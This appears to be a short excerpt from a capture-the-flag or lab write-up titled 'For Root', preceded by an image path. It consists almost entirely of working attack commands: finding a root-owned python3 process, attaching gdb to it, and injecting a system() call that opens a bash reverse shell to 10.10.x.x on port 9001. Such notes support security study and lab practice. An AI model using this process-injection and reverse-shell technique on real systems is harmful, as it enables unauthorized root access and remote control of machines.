 For Root:  
  

`export PID=$(ps aux | grep "^root.*python3" | awk '{print $2}')`

`gdb -p $PID`

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/9001 0>&1'")`